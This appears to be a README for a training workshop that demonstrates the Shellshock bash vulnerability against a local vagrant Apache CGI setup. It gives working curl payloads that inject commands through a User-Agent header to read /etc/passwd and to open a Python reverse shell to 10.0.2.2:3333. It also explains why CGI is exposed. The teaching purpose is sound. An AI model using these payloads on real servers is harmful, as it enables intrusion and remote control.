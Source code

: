 # Part 2 of the AppSec 101 injection workshop
### Created by Cade Cairns <cade@thoughtworks.com> and Chelsea Komlo <ckomlo@thoughtworks.com>

# Getting started on the Shellshock demo for this workshop

All necessary instruction & demo materials can be found within the shellshock subfolder
  
## Setup
   1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.
   2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."
   3. Test the following vulnerabilities against http://localhost:8080/cgi-bin/somefileofyourchoice.sh


## Demoing the vulnerability
### To test via the command line:

```sh
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl:

#### To just echo data:

```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```

#### To copy passwords:
```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```

#### To create a reverse shell:
 ```sh
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno    (),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```


## More information about Shellshock:
 Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition.

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.

### Why is CGI vulnurable?

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reac    h of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack.
 
 Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack.

